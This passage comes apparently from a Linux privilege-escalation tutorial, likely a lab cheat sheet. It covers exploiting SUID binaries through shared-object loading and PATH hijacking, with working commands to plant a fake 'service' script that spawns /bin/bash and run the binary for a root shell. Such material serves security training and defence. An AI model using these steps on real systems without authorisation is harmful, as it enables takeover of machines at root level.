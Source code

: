 ### Execute the SUID Binary

Run the vulnerable binary:

```bash
/usr/local/bin/suid-so
```

If successful, your `.so` file is loaded, and a root shell is spawned.

### Notes

* Binary must be SUID/SGID and load `.so` files insecurely.
* Doesn’t work if paths are sanitized or if secure loader settings are enforced.
* Check SUID bit with:

  ```bash
  ls -l /usr/local/bin/suid-so
  ```

---

## 12. SUID / SGID Executables - Environment Variables

SUID/SGID binaries that call other executables without using full paths can be exploited by modifying the `PATH` environment variable.

### Example Scenario

Use `strings` to inspect the binary:

```bash
strings /usr/local/bin/suid-env
```

If you find something like:

```bash
service apache2 start
```

This means it's calling `service` **without full path** (`/usr/sbin/service`), making it vulnerable.

### Exploitation Steps

1. Create a fake `service` binary:

   ```bash
   echo -e '#!/bin/bash\n/bin/bash' > ./service
   chmod +x ./service
   ```

2. Prepend current directory (`.`) to `PATH` during execution:

   ```bash
   PATH=.:$PATH /usr/local/bin/suid-env
   ```
